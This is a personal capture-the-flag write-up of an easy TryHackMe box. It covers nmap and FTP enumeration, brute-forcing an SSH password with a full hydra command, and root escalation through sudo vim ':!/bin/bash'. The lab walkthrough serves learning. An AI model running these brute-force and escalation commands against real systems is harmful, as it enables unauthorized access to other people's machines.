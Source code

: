 # NOTES
New day, new box. Found an easy box on THM whilst browsing for boxes to do. Still working on perfecting the workflow for doing boxes + taking notes. Goal of this box is to obviously to complete the challenges on THM and on top of that to smooth out our note taking process. 

## SUMMARY
One of the easiest and yet the most frustrating boxes I've ever had the pleasure of doing. So many things went wrong. WE tried a vector and a CVE payload that was useless. Main flow was just through FTP and SSH exploits. 

## THINGS WE LEARNED
Aside from humility and the lack of my ability, here are somethings we learned from the "box" : 
- Write down important usernames and credentials and keep referring back to them
- specifying port number on hydra is done through -s 
- Running hydra on ssh service through the easy way instead of using -M just provide the IP and "ssh" at the end of the line


# BOX 
All Attachments seen below will be found in their respective directories or will be in the Attachments sub-folder.

## ENUMERATION

#### NMAP 
		nmap -A --min-rate=10000 10.10.60.71 -oN ./Enumeration/detailedScan.nmap
![[Pasted image 20211129190534.png]]

- Relevant versions

		21/tcp   open  ftp     vsftpd 3.0.3
		80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
		2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

#### FTP 
- anonymous login was permitted
- We found a file : /pub/ForMitch.txt
![[Pasted image 20211129193659.png]]
- ForMitch.txt

		Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
		
![[Pasted image 20211129194003.png]]

		
#### PORT 80
- /robots.txt :
	- Found a possible username through log like entry : 
	
			"$Id: robots.txt 3494 2003-03-19 15:37:44Z mike $"
			
	- Found a possible hidden file : Openemr-5_0_1_3

	![[Pasted image 20211129190657.png]]

#### SSH 
- Look for vulnerabilities with the ssh version

		searchsploit ssh 7.2
	![[Pasted image 20211129191231.png]]
- Username Enumeration to confirm if 'mike' has an account
	![[Pasted image 20211129191557.png]]
	
	



## EXPLOIT

#### HYDRA BruteForce
- Brute forced the SSH password since we realised that it was a weak password

		hydra -l mitch -P /opt/SecLists/Passwords/Common-Credentials/best110.txt -s 2222 -v 10.10.119.210 -t 4 ssh
		
		Password : secret
		
![[Pasted image 20211129211409.png]]



## POST-EXPLOIT

- Simple priv esc enum 
	
		sudo -l 
		User mitch may run the following commands on Machine:
   		(root) NOPASSWD: /usr/bin/vim
		
![[Pasted image 20211129211551.png]]

- Root Escalation through vim

		sudo /usr/bin/vim
		
		*In Vim*
		:!/bin/bash

![[Pasted image 20211129211650.png]]

![[Pasted image 20211129211615.png]]




## Other Vectors
![[Pasted image 20211129212353.png]]